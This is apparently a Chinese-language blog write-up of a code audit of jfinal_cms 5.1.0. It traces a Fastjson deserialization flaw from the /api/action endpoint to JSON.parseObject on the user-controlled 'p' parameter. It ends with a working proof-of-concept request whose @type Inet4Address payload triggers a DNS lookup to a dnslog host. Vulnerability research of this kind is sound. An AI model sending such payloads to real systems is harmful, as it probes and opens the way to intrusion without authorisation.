吃饭时候刷了一下公众号，找到一个Java的代码审计，刚好今天不怎么想学新东西，干脆就来看看吧

github发布的Issue：https://github.com/jflyfox/jfinal_cms/issues/60

# 漏洞源码分析

## 漏洞版本

jfinal_cms 版本：5.1.0

JDK的话我还是用最常用的那个JDK 版本：jdk-8u65

##  反序列化入口点

### ApiForm#getParams()

全局搜索一下Fastjson的反序列化函数`JSON.parseObject()`，可以找到ApiForm.java文件中的`getParams()`方法调用了该方法

```java
	private JSONObject getParams() {
		JSONObject json = null;
		try {
			String params = "";
			params = this.p;
			boolean flag = ConfigCache.getValueToBoolean("API.PARAM.ENCRYPT");
			if (flag) {
				params = ApiUtils.decode(params);
			}

			json = JSON.parseObject(params);
		} catch (Exception e) {
			log.error("apiform json parse fail:" + p);
			return new JSONObject();
		}

		return json;
	}
```

其实就是获取并解析请求参数的内容并进行JSON反序列化操作的函数，p这个成员变量来自于 HTTP 请求参数，是攻击者完全可控的

继续回溯，看看哪里调用了getParams()



一共有三个地方，后面两个都没有被调用的地方，那就只有get()函数了

### ApiForm#get()

我们看到get()函数

```java
	public String get(String key) {
		return getParams().getString(key);
	}
```

直接就调用了，没什么前置条件

继续回溯

### ApiForm#getInt()

找到getInt方法

```java
	public int getInt(String key) {
		return NumberUtils.parseInt(get(key));
	}
```

继续回溯



### ApiV100Logic业务方法

在`ApiV100Logic`类的业务方法中会通过 `form.getInt("siteId")`来获取siteId参数。

```java
	@Override
	public ApiResp folders(ApiForm form) {
		List<TbFolder> list = folderServer.getFolders(form.getInt("siteId"));
		return new ApiResp(form).addData("list", list);
	}
	@Override
	public ApiResp pageArticleSite(ApiForm form) {
		Page<TbArticle> page = service.getArticleBySiteId(form.getPaginator(), form.getInt("siteId"));
		return new ApiResp(form).addData("list", page.getList()).addData("total", page.getTotalRow());
	}
	@Override
	public ApiResp pageArticle(ApiForm form) {
		Page<TbArticle> page = service.getArticle(form.getPaginator(), form.getInt("folderId"));
		return new ApiResp(form).addData("list", page.getList()).addData("total", page.getTotalRow());
	}
	@Override
	public ApiResp article(ApiForm form) {
		TbArticle article = service.getArticle(form.getInt("articleId"));
		return new ApiResp(form).addData("article", article);
	}
```

那么我们只要选择其中一个方法进行调用就行了

我们看到控制器ApiController

## ApiController控制器

```java
package com.jflyfox.api.controller;

import com.jfinal.aop.Before;
import com.jfinal.kit.JsonKit;
import com.jflyfox.api.form.ApiResp;
import com.jflyfox.api.form.ApiForm;
import com.jflyfox.api.interceptor.ApiInterceptor;
import com.jflyfox.api.service.ApiService;
import com.jflyfox.api.util.ApiUtils;
import com.jflyfox.component.base.BaseProjectController;
import com.jflyfox.jfinal.component.annotation.ControllerBind;
import com.jflyfox.util.StrUtils;

@ControllerBind(controllerKey = "/api")
@Before(ApiInterceptor.class)
public class ApiController extends BaseProjectController {

	ApiService service = new ApiService();

	/**
	 * api测试入口
	 * 
	 * 2016年10月3日 下午5:47:55 flyfox 369191470@qq.com
	 */
	public void index() {
		ApiForm from = getForm();
		
		renderJson(new ApiResp(from).addData("notice", "api is ok!"));
	}

	/**
	 * 开关调试日志
	 * 
	 * 2016年10月3日 下午5:47:46 flyfox 369191470@qq.com
	 */
	public void debug() {
		ApiForm from = getForm();
		
		ApiUtils.DEBUG = !ApiUtils.DEBUG;
		renderJson(new ApiResp(from).addData("debug", ApiUtils.DEBUG));
	}

	/**
	 * 获取信息入口
	 * 
	 * 2016年10月3日 下午1:38:27 flyfox 369191470@qq.com
	 */
	public void action() {
		long start = System.currentTimeMillis();

		ApiForm from = getForm();
		if (StrUtils.isEmpty(from.getMethod())) {
			String method = getPara();
			from.setMethod(method);
		}

		// 调用接口方法
		ApiResp resp = service.action(from);
		// 没有数据输出空
		resp = resp == null ? new ApiResp(from) : resp;
		
		// 调试日志
		if (ApiUtils.DEBUG) {
			log.info("API DEBUG ACTION \n[from=" + from + "]" //
					+ "\n[resp=" + JsonKit.toJson(resp) + "]" //
					+ "\n[time=" + (System.currentTimeMillis() - start) + "ms]");
		}
		renderJson(resp);
	}

	public ApiForm getForm() {
		ApiForm form = getBean(ApiForm.class, null);
		return form;
	}

}
```

我们看到一个action方法

### ApiController#action()

```java
public void action() {
    // 1. 记录开始时间（用于性能统计）
    long start = System.currentTimeMillis();

    // 2. 获取请求表单对象
    ApiForm from = getForm();
    // from 包含了请求的所有参数信息
    
    // 3. 处理 method 参数
    if (StrUtils.isEmpty(from.getMethod())) {
        // 如果表单中没有 method，从 URL 路径参数中获取
        String method = getPara();  // 例如：/api/getUserInfo
        from.setMethod(method);
    }

    // 4. 调用业务服务层处理请求
    ApiResp resp = service.action(from);
    
    // 5. 防空处理：确保响应不为 null
    resp = resp == null ? new ApiResp(from) : resp;
    // 如果服务返回 null，创建一个基于请求的空响应对象
    
    // 6. 调试日志（仅在 DEBUG 模式下输出）
    if (ApiUtils.DEBUG) {
        log.info("API DEBUG ACTION \n[from=" + from + "]"
              + "\n[resp=" + JsonKit.toJson(resp) + "]"
              + "\n[time=" + (System.currentTimeMillis() - start) + "ms]");
        // 输出：请求信息、响应信息、耗时
    }
    
    // 7. 将响应对象转换为 JSON 并返回给客户端
    renderJson(resp);
}
```

这个方法是API控制器的核心处理方法，他重写了Controller中的action来处理所有API请求

这里的话会将获取到的请求表单对象from交给业务服务层去处理请求，就是ApiService#action()方法

表单对象中的method参数的获取主要有两种，一种是`ApiForm from = getForm();`从请求体中获取，一种是`String method = getPara();`获取URL路径中的参数后调用`setMethod()`设置method的值

跟进到业务服务层看看

### ApiService#action()

```java
	public ApiResp action(ApiForm form) {
		try {
			//
			if (methodList.contains(form.getMethod())) {

				// 登陆验证标识
				boolean validFlag = ConfigCache.getValueToBoolean("API.LOGIN.VALID");
				if (validFlag) {
					// 先进行登陆验证。如果验证失败，直接返回错误
					ApiResp validResp = getApiLogic(form).valid(form);
					if (validResp.getCode() != ApiConstant.CODE_SUCCESS) {
						return validResp;
					}
				}

				// 调用接口方法，利用反射更简洁
				ApiResp apiResp = (ApiResp) ReflectionUtils.invokeMethod(getApiLogic(form), form.getMethod(), //
						new Class<?>[] { ApiForm.class }, new Object[] { form });
				return apiResp;
			}

			return ApiUtils.getMethodError(form);
		} catch (Exception e) {
			log.error("action handler error", e);
			return ApiUtils.getMethodHandlerError(form);
		}
	}
```

先是检查请求的method是否在methodList列表中

```java
	private static List<String> methodList;

	static {
		methodList = methodList();
	}

	public static List<String> methodList() {
		List<String> methodList = new ArrayList<String>();
		Method[] methods = IApiLogic.class.getMethods();
		for (int i = 0; i < methods.length; i++) {
			Class<?>[] params = methods[i].getParameterTypes();
			if (params.length == 1 && (params[0] == ApiForm.class)) {
				methodList.add(methods[i].getName());
			}
		}
		return methodList;
	}
```

通过反射获取 IApiLogic 接口的所有方法，遍历每个方法获取方法的参数类型数组，将只有一个参数并且参数类型是`ApiForm.class`的方法提取出来添加到methodList列表中并返回

然后有一个登录验证，随后就是反射调用接口方法了

```java
				// 调用接口方法，利用反射更简洁
				ApiResp apiResp = (ApiResp) ReflectionUtils.invokeMethod(getApiLogic(form), form.getMethod(), //
						new Class<?>[] { ApiForm.class }, new Object[] { form });
				return apiResp;
```

方法名是form中的method参数值，传入方法的参数是我们整个form请求表单

回想到刚刚的ApiV100Logic业务方法，以folders方法为例

```java
	@Override
	public ApiResp folders(ApiForm form) {
		List<TbFolder> list = folderServer.getFolders(form.getInt("siteId"));
		return new ApiResp(form).addData("list", list);
	}
```



并且是接入了IApiLogic接口的，那么我们就可以通过上面的反射调用到里面的folders方法

# 最终链子

```java
ApiController#action()->
    ApiService#action()->
    	ApiV100Logic#folders()->
    		ApiForm#getInt()->
    			ApiForm#get()->
    				ApiForm#getParams()->
    					JSON.parseObject(params)
```

所以我们在传参数的时候需要传一个method参数为`folders`或者其他存在于methodList列表中的IApiLogic接口的方法，并传入p参数为恶意的JSON恶意字符串

# 为什么p参数可控

我们看到刚刚控制器的action方法



会将HTTP 请求参数绑定到ApiForm对象

跟进getBean来到Controller类的getBean

```java
	public <T> T getBean(Class<T> beanClass, String beanName) {
		return (T)Injector.injectBean(beanClass, beanName, request, false);
	}
```

依赖注入和对象绑定的操作



通过反射自动将 HTTP 请求参数绑定到 Java Bean 对象的字段上

先是创建一个bean，也就是ApiForm类型的实例，然后会从 request 中提取参数，并获取 ApiForm 类的所有 public 方法（包括继承的）

接着会遍历并处理其中的Setter方法

```java
		for (Method method : methods) {
			String methodName = method.getName();
			if (methodName.startsWith("set") == false || methodName.length() <= 3) {	// only setter method
				continue;
			}
			Class<?>[] types = method.getParameterTypes();
			if (types.length != 1) {						// only one parameter
				continue;
			}
			
			String attrName = StrKit.firstCharToLowerCase(methodName.substring(3));
			String paraName = modelNameAndDot != null ? modelNameAndDot + attrName : attrName;
			if (parasMap.containsKey(paraName)) {
				try {
					String paraValue = request.getParameter(paraName);
					Object value = paraValue != null ? converter.convert(types[0], paraValue) : null;
					method.invoke(bean, value);
				} catch (Exception e) {
					if (skipConvertError == false) {
						throw new RuntimeException(e);
					}
				}
			}
		}
```

`String attrName = StrKit.firstCharToLowerCase(methodName.substring(3));`这步会通过方法名推到属性名例如`setMethod" → "method"`

`parasMap.containsKey(paraName)`检测请求参数的参数名中是否有相关的参数，如果有的话就获取该参数的值并进行setter方法赋值操作

然后看到ApiForm类中有setP方法



这样就可以理明白了

所以我们可以构造这样的请求参数

```http
/api/action?method=folders&p=${恶意JSON内容}
```

# 最终POC

在issue中的poc是这样的



```java
/api/action?version=1.0.1&apiNo=1000000&pageNo=1&pageSize=1&method=pageArticleSite&time=20170314160401&p={"zeo":{"@type":"java.net.Inet4Address","val":"aporo8.dnslog.cn"}}
```

额我不是很清楚为什么会有一个zeo，估计是跟版本有关

# Fastjson1.2.62构造poc

```java
{
    "zeo": {
        "@type": "java.net.Inet4Address",
        "val": "aporo8.dnslog.cn"
    }
}
```

这里还需要注意Fastjson的版本



我们看看里面的parseObject方法



这里调用parse函数进行反序列化，将JSON字符串反序列化成一个JSONObject



可以看到这里的key是zeo，而值是一个Inet4Address实例

而如果没有外层的json进行包裹，就会抛出报错





所以相当于是套了一层壳去绕过，不然在后续进入toJSON的时候会产生报错
